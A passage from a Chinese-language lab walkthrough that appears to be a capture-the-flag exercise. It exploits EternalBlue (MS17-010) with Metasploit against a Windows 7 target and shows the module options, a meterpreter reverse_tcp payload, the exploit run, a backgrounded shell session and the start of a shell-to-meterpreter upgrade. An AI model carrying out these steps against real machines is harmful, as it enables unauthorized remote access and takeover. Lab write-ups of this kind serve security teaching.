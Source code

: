 ```
        VERIFY_TARGET  true             yes       Check if remote OS matches e
                                                    xploit Target. Only affects
                                                    Windows Server 2008 R2, Wind
                                                    ows 7, Windows Embedded Stan
                                                    dard 7 target machines.


        Payload options (windows/x64/meterpreter/reverse_tcp):

        Name      Current Setting  Required  Description
        ----      ---------------  --------  -----------
        EXITFUNC  thread           yes       Exit technique (Accepted: '', seh
                                                , thread, process, none)
        LHOST     10.10.128.55     yes       The listen address (an interface
                                                may be specified)
        LPORT     4444             yes       The listen port


        Exploit target:

        Id  Name
        --  ----
        0   Automatic Target

        View the full module info with the info, or info -d command.
        msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.68.124
        rhosts => 10.10.68.124
        ```

+ 攻击：
    ```
    msf6 exploit(windows/smb/ms17_010_eternalblue) > run
    ```
    ![Alt text](/style/image/image-255.png)

    此时是common shell,需要转化为meterpreter shell(交互shell)

## 使用meterpreter shell及windows提权

+ 置于后台shell:

    ```
    C:\Windows\system32>^Z
    Background session 1? [y/N]  y
    msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -l

    Active sessions
    ===============

    Id  Name  Type               Information           Connection
    --  ----  ----               -----------           ----------
    1         shell x64/windows  Shell Banner: Micros  10.10.223.84:4444 ->
                                oft Windows [Version   10.10.46.13:49190 (
                                    6.1.7601] Copyright  10.10.46.13)
                                    (c) 2009 Micros...

    ```

+ common shell 升级 meterpreter shell:

    ```
    msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter

```